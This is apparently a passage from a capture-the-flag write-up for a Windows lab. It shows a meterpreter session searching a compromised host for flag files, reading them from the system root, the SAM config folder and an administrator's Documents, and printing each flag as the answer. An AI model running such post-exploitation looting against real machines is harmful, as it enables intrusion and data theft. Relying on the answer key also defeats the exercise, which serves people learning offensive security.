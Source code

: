 > alqfna22

## Task 5 Find flags!

```
meterpreter > search -f flag*.txt
Found 3 results...
==================

Path                                  Size (bytes)  Modified (UTC)
----                                  ------------  --------------
c:\Users\Jon\Documents\flag3.txt      37            2019-03-18 02:26:36 +0700
c:\Windows\System32\config\flag2.txt  34            2019-03-18 02:32:48 +0700
c:\flag1.txt                          24            2019-03-18 02:27:21 +0700
```

### • Flag1? This flag can be found at the system root.

> flag{access_the_machine}

```
C:\Windows\system32>type c:\flag1.txt
type c:\flag1.txt
flag{access_the_machine}
```

### • Flag2? This flag can be found at the location where passwords are stored within Windows.

### \*Errata: Windows really doesn't like the location of this flag and can occasionally delete it. It may be necessary in some cases to terminate/restart the machine and rerun the exploit to find this flag. This relatively rare, however, it can happen.

> flag{sam_database_elevated_access}

```
C:\Windows\system32>type c:\Windows\System32\config\flag2.txt
type c:\Windows\System32\config\flag2.txt
flag{sam_database_elevated_access}
```

### • flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved.

> flag{admin_documents_can_be_valuable}

```
C:\Windows\system32>type c:\Users\Jon\Documents\flag3.txt
type c:\Users\Jon\Documents\flag3.txt
flag{admin_documents_can_be_valuable}
```
